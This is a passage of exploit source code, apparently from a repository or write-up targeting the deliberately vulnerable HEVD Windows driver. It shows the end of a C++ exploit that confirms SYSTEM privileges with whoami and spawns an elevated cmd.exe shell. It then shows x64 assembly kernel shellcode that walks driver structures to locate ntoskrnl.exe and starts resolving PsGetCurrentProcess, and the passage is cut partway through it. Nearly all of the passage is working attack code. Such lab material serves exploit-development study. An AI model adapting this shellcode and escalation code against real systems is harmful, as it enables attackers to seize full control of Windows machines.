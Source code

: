 ```C++
        );

        printf("Done!\n");
    }

    printf("Closing driver handle... ");
    CloseHandle(hevdDevice);
    printf("Done!\n");

    printf("Running whoami (should return system user)...\n");
    system("whoami");
    printf("Done!\n");


    printf("Spawning elevated shell...\n");
    system("cmd.exe");
    printf("Done!\n");

    return 0;
}
```

Contents of the `shellcode.asm` file:

```Assembly
PUBLIC kernel_shellcode
PUBLIC get_kernel_shellcode_address
PUBLIC get_kernel_shellcode_size

.code

kernel_shellcode_start PROC
kernel_shellcode_start ENDP

kernel_shellcode PROC
	push rbp
	mov rbp, rsp
	sub rsp, 20h

	; Get address of ntoskrnl.exe
	;   Get _KLDR_DATA_TABLE_ENTRY
	mov rax, [rbp]                      ; Irp
	mov rax, [rax + 0b8h]               ; Irp->CurrentStackLocation
	mov rax, [rax + 28h]                ; CurrentStackLocation->DeviceObject
	mov rax, [rax + 08h]                ; DeviceObject->DriverObject
	mov rax, [rax + 28h]                ; DriverObject->DriverSection  (DriverSection has type _KLDR_DATA_TABLE_ENTRY)
	
	;   Cycle through modules until we find ntoskrnl.exe
cycle_modules:
	mov rax, [rax]
	mov cx, [rax + 58h]                 ; KldrDataTablEntry->BaseDllName.Length
	cmp cx, 18h
	jne cycle_modules
	mov rcx, [rax + 58h + 8h]           ; KldrDataTablEntry->BaseDllName.Buffer
	mov r8, 0073006f0074006eh           ; U"ntos"
	cmp [rcx], r8
	jne cycle_modules
	
	mov rax, [rax+30h]                  ; KldrDataTablEntry->DllBase
	mov [rbp - 08h], rax

	; Get address of PsGetCurrentProcess
	call skip_PsGetCurrentProcess
```